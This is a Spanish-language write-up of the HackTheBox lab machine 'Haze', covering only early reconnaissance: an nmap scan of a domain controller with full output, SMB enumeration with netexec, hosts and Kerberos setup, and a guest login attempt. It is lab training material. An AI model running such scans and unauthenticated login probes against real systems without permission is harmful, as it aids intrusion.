>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)
{: .prompt-info }

Haze es una maquina nivel Hard de la plataforma de HackTheBox de Active Directory que toca algunos temas interesantes, desde Ataques web hasta ataques dentro del dominio como abuso de malas configuraciones ACL (Access Control List), asi que para no abundar mas, sigan viendo :]

## Nmap Scan

Empezaremos escaneando la maquina con el siguiente comando:

```bash
❯ nmap -A -sV --min-rate 5000 -T5 -p- 10.10.11.61 -vvv --open -oN scan.txt -Pn
```

El cual nos lanza la siguiente respuesta:

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-02 21:59 -0400
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 21:59
Completed NSE at 21:59, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 21:59
Completed NSE at 21:59, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 21:59
Completed NSE at 21:59, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 21:59
Completed Parallel DNS resolution of 1 host. at 21:59, 0.50s elapsed
DNS resolution of 1 IPs took 0.50s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:59
Scanning 10.10.11.61 [65535 ports]
Discovered open port 445/tcp on 10.10.11.61
Discovered open port 135/tcp on 10.10.11.61
Discovered open port 53/tcp on 10.10.11.61
Discovered open port 139/tcp on 10.10.11.61
Discovered open port 49585/tcp on 10.10.11.61
Discovered open port 49406/tcp on 10.10.11.61
Discovered open port 8089/tcp on 10.10.11.61
Discovered open port 8088/tcp on 10.10.11.61
Discovered open port 49412/tcp on 10.10.11.61
Discovered open port 49894/tcp on 10.10.11.61
Discovered open port 47001/tcp on 10.10.11.61
Discovered open port 49404/tcp on 10.10.11.61
Discovered open port 3268/tcp on 10.10.11.61
Discovered open port 464/tcp on 10.10.11.61
Discovered open port 88/tcp on 10.10.11.61
Discovered open port 49667/tcp on 10.10.11.61
Discovered open port 49440/tcp on 10.10.11.61
Discovered open port 49665/tcp on 10.10.11.61
Discovered open port 593/tcp on 10.10.11.61
Discovered open port 9389/tcp on 10.10.11.61
Discovered open port 636/tcp on 10.10.11.61
Discovered open port 5985/tcp on 10.10.11.61
Discovered open port 49431/tcp on 10.10.11.61
Discovered open port 49668/tcp on 10.10.11.61
Discovered open port 389/tcp on 10.10.11.61
Warning: 10.10.11.61 giving up on port because retransmission cap hit (2).
Discovered open port 8000/tcp on 10.10.11.61
Discovered open port 49666/tcp on 10.10.11.61
Discovered open port 49664/tcp on 10.10.11.61
Discovered open port 49403/tcp on 10.10.11.61
Completed Connect Scan at 21:59, 17.52s elapsed (65535 total ports)
Initiating Service scan at 21:59
Scanning 29 services on 10.10.11.61
Service scan Timing: About 62.07% done; ETC: 22:00 (0:00:34 remaining)
Completed Service scan at 22:00, 58.13s elapsed (29 services on 1 host)
NSE: Script scanning 10.10.11.61.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 9.38s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 2.35s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 0.01s elapsed
Nmap scan report for 10.10.11.61
Host is up, received user-set (0.077s latency).
Scanned at 2025-07-02 21:59:12 AST for 87s
Not shown: 60159 closed tcp ports (conn-refused), 5347 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-07-03 09:59:38Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:     db18 a1f5 986c 1470 b848 35ec d437 1ca0
| SHA-1:   6cdd 5696 f250 6feb 1a27 abdf d470 5143 3ab8 5d1f
| SHA-256: 6849 2e03 40dd c3d4 1267 aa09 a6f6 d8ef 14d6 100a 5100 2aa3 ef13 01ec 8c60 94e5
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:     db18 a1f5 986c 1470 b848 35ec d437 1ca0
| SHA-1:   6cdd 5696 f250 6feb 1a27 abdf d470 5143 3ab8 5d1f
| SHA-256: 6849 2e03 40dd c3d4 1267 aa09 a6f6 d8ef 14d6 100a 5100 2aa3 ef13 01ec 8c60 94e5
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:     db18 a1f5 986c 1470 b848 35ec d437 1ca0
| SHA-1:   6cdd 5696 f250 6feb 1a27 abdf d470 5143 3ab8 5d1f
| SHA-256: 6849 2e03 40dd c3d4 1267 aa09 a6f6 d8ef 14d6 100a 5100 2aa3 ef13 01ec 8c60 94e5
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp  open  http          syn-ack Splunkd httpd
|_http-server-header: Splunkd
|_http-favicon: Unknown favicon MD5: E60C968E8FF3CC2F4FB869588E83AFC6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.11.61:8000/en-US/account/login?return_to=%2Fen-US%2F
| http-robots.txt: 1 disallowed entry 
|_/
8088/tcp  open  ssl/http      syn-ack Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:29:08
| Not valid after:  2028-03-04T07:29:08
| MD5:     82e5 ba5a c723 2f49 6f67 395b 5e64 ed9b
| SHA-1:   e859 76a6 03da feef c1ab 9acf ecc7 fd75 f1e5 1ab2
| SHA-256: 2dd8 562b 7373 a306 a04d 5939 dfe4 c088 7254 b448 d22a 6c5e ab1a d2fe 8466 4afb
| -----BEGIN CERTIFICATE-----
| MIIDMjCCAhoCCQCtNoIdTvT1CjANBgkqhkiG9w0BAQsFADB/MQswCQYDVQQGEwJV
| UzELMAkGA1UECAwCQ0ExFjAUBgNVBAcMDVNhbiBGcmFuY2lzY28xDzANBgNVBAoM
| BlNwbHVuazEXMBUGA1UEAwwOU3BsdW5rQ29tbW9uQ0ExITAfBgkqhkiG9w0BCQEW
| EnN1cHBvcnRAc3BsdW5rLmNvbTAeFw0yNTAzMDUwNzI5MDhaFw0yODAzMDQwNzI5
| MDhaMDcxIDAeBgNVBAMMF1NwbHVua1NlcnZlckRlZmF1bHRDZXJ0MRMwEQYDVQQK
| DApTcGx1bmtVc2VyMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3SOu
| w9/K07cQT0p+ga9FjWCzI0Os/MVwpjOlPQ/o1uA/VSoNiweXobD3VBLngqfGQlAD
| VGRWkGdD3xS9mOknh9r4Dut6zDyUdKvgrZJVoX7EiRsHhXAr9HRgqWj7khQLz3n9
| fjxxdJkXtGZaNdonWENSeb93HfiYGjSWQJMfNdTd2lMGMDMC4JdydEyGEHRAMNnZ
| y/zCOSP97yJOSSBbr6IZxyZG934bbEH9d9r0g/I4roDlzZFFBlGi542s+1QJ79FR
| IUrfZh41PfxrElITkFyKCJyU5gfPKIvxwDHclE+zY/ju2lcHJMtgWNvF6s0S9ic5
| oxg0+Ry3qngtwd4yUQIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQCbT8LwPCoR7I41
| dS2ZjVjntxWHf/lv3MgumorerPBufJA4nw5Yq1gnAYruIkAkfGS7Dy09NL2+SwFy
| NKZa41K6OWst/sRP9smtpY3dfeNu5ofTP5oLEbW2fIEuG4fGvkQJ0SQOPOG71tfm
| ymVCjLlMYMU11GPjfb3CpVh5uLRhIw4btQ8Kz9aB6MiBomyiD/MqtQgA25thnijA
| gHYEzB3W6FKtWtjmPcqDugGs2WU6UID/fFZpsp+3h2QLGN5e+e1OTjoIbexbJ/S6
| iRjTy6GUjsrHtHM+KBjUFvUvHi27Ns47BkNzA1gedvRYrviscPCBkphjo9x0qDdj
| 3EhgaH2L
|_-----END CERTIFICATE-----
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: 404 Not Found
| http-methods: 
|_  Supported Methods: GET POST HEAD OPTIONS
8089/tcp  open  ssl/http      syn-ack Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:29:08
| Not valid after:  2028-03-04T07:29:08
| MD5:     82e5 ba5a c723 2f49 6f67 395b 5e64 ed9b
| SHA-1:   e859 76a6 03da feef c1ab 9acf ecc7 fd75 f1e5 1ab2
| SHA-256: 2dd8 562b 7373 a306 a04d 5939 dfe4 c088 7254 b448 d22a 6c5e ab1a d2fe 8466 4afb
| -----BEGIN CERTIFICATE-----
| MIIDMjCCAhoCCQCtNoIdTvT1CjANBgkqhkiG9w0BAQsFADB/MQswCQYDVQQGEwJV
| UzELMAkGA1UECAwCQ0ExFjAUBgNVBAcMDVNhbiBGcmFuY2lzY28xDzANBgNVBAoM
| BlNwbHVuazEXMBUGA1UEAwwOU3BsdW5rQ29tbW9uQ0ExITAfBgkqhkiG9w0BCQEW
| EnN1cHBvcnRAc3BsdW5rLmNvbTAeFw0yNTAzMDUwNzI5MDhaFw0yODAzMDQwNzI5
| MDhaMDcxIDAeBgNVBAMMF1NwbHVua1NlcnZlckRlZmF1bHRDZXJ0MRMwEQYDVQQK
| DApTcGx1bmtVc2VyMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3SOu
| w9/K07cQT0p+ga9FjWCzI0Os/MVwpjOlPQ/o1uA/VSoNiweXobD3VBLngqfGQlAD
| VGRWkGdD3xS9mOknh9r4Dut6zDyUdKvgrZJVoX7EiRsHhXAr9HRgqWj7khQLz3n9
| fjxxdJkXtGZaNdonWENSeb93HfiYGjSWQJMfNdTd2lMGMDMC4JdydEyGEHRAMNnZ
| y/zCOSP97yJOSSBbr6IZxyZG934bbEH9d9r0g/I4roDlzZFFBlGi542s+1QJ79FR
| IUrfZh41PfxrElITkFyKCJyU5gfPKIvxwDHclE+zY/ju2lcHJMtgWNvF6s0S9ic5
| oxg0+Ry3qngtwd4yUQIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQCbT8LwPCoR7I41
| dS2ZjVjntxWHf/lv3MgumorerPBufJA4nw5Yq1gnAYruIkAkfGS7Dy09NL2+SwFy
| NKZa41K6OWst/sRP9smtpY3dfeNu5ofTP5oLEbW2fIEuG4fGvkQJ0SQOPOG71tfm
| ymVCjLlMYMU11GPjfb3CpVh5uLRhIw4btQ8Kz9aB6MiBomyiD/MqtQgA25thnijA
| gHYEzB3W6FKtWtjmPcqDugGs2WU6UID/fFZpsp+3h2QLGN5e+e1OTjoIbexbJ/S6
| iRjTy6GUjsrHtHM+KBjUFvUvHi27Ns47BkNzA1gedvRYrviscPCBkphjo9x0qDdj
| 3EhgaH2L
|_-----END CERTIFICATE-----
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49403/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49404/tcp open  msrpc         syn-ack Microsoft Windows RPC
49406/tcp open  msrpc         syn-ack Microsoft Windows RPC
49412/tcp open  msrpc         syn-ack Microsoft Windows RPC
49431/tcp open  msrpc         syn-ack Microsoft Windows RPC
49440/tcp open  msrpc         syn-ack Microsoft Windows RPC
49585/tcp open  msrpc         syn-ack Microsoft Windows RPC
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49894/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 46282/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12409/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 26877/udp): CLEAN (Failed to receive data)
|   Check 4 (port 13305/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 8h00m01s
| smb2-time: 
|   date: 2025-07-03T10:00:31
|_  start_date: N/A

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:00
Completed NSE at 22:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.17 seconds
```

Este escaneo nos da que hay una web corriendo tanto en el puerto 8000, 8088 y 8089, pero antes de revisarlas como tal, primero veamos si podemos hacer algo en el DC sin tener credenciales, primero obteniendo el nombre del host y el dominio:

```bash
❯ netexec smb 10.10.11.61
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
```

Chido, tenemos que de nombre es `DC01` y el dominio es `haze.htb`. Utilizando la herramienta de [iRealm](https://github.com/Gzzcoo/iRealm) podemos agregar esto rapidamente a nuestro `krb5.conf` y a nuestro `/etc/hosts`, que esto basicamente nos sirve para decirle a nuestra maquina atacante a donde debe atacar cuando vaya a resolver a ese dominio, y en el caso de el krb5.conf, es basicamente agregando el dominio como tal y que nuestro kerberos sepa a donde ira al referir el dominio, es basicamente el `/etc/hosts` pero para Active Directory :p

```bash
❯ iRealm
    _ ____             __        
   (_) __ \___  ____ _/ /___ ___ 
  / / /_/ / _ \/ __ `/ / __ `__ \
 / / _, _/  __/ /_/ / / / / / / /
/_/_/ |_|\___/\__,_/_/_/ /_/ /_/ 
                                 

[!] IP address: 10.10.11.61
[!] Domain name (e.g. dominio.htb): haze.htb
[!] Hostname (e.g. dc): dc01

💡 Entry to add to /etc/hosts:
10.10.11.61 dc01.haze.htb dc01 haze.htb

✅ Do you want to add this to /etc/hosts? (y/n): y
[sudo] password for unknown: 

✅ Added to /etc/hosts!

⏰ Syncing time with DC...

🗂️ Backup saved as /etc/krb5.conf.bak

🧹 Replacing /etc/krb5.conf...

🎉 Done! Hosts and Kerberos config updated.
```

Perfecto, una vez que hemos configurado todo lo necesario, veamos si tenemos acceso como `guest` al DC:

```bash
❯ netexec smb 10.10.11.61 -u guest -p ''
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
